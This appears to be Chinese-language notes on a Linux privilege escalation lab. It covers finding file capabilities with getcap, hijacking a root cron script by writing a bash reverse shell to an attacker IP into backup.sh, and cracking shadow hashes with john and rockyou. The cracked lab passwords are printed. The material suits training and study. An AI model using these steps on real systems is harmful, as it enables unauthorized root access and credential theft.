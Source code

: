 系統管理員可以用來提高進程或二進製文件權限級別的另一種方法是“Capabilities(功能)”。功能有助於在更精細的級別上管理權限。例如，如果 SOC 分析師需要使用需要啟動套接字連接的工具，普通用戶將無法做到這一點。如果系統管理員不想給這個用戶更高的權限，他們可以改變二進製文件的能力。結果，二進製文件無需更高權限的用戶即可完成其任務。
功能手冊頁提供了有關其用法和選項的詳細信息。

`可以使用該getcap 工具列出啟用的功能。`

```
Last login: Thu Jan 27 14:12:33 2022 from 10.100.2.203
$ getcap -r / 2>/dev/null

/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep

``` 
## task9 cron
如果有一個以 root 權限運行的計劃任務，我們可以更改將要運行的腳本，那麼我們的腳本將以 root 權限運行。     
```    
任何用戶都可以讀取保存系統範圍 cron 作業的文件，/etc/crontab
```
`cat /etc/crontab`
```
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

把backup.sh 的內容改成
```
#!/bin/bash

bash -i >& /dev/tcp/10.9.2.107/8787 0>&1
```
然後他就會彈回root的shell 

matt密碼
```
┌──(kali㉿kali)-[~/Desktop]
└─$ unshadow passwd.txt shadow.txt >pass.txt
                                                                                     
┌──(kali㉿kali)-[~/Desktop]
└─$ john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (matt)     
Password1        (karen)     
2g 0:00:00:01 DONE (2022-01-27 10:54) 1.369g/s 2454p/s 2805c/s 2805C/s adriano..fresa
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
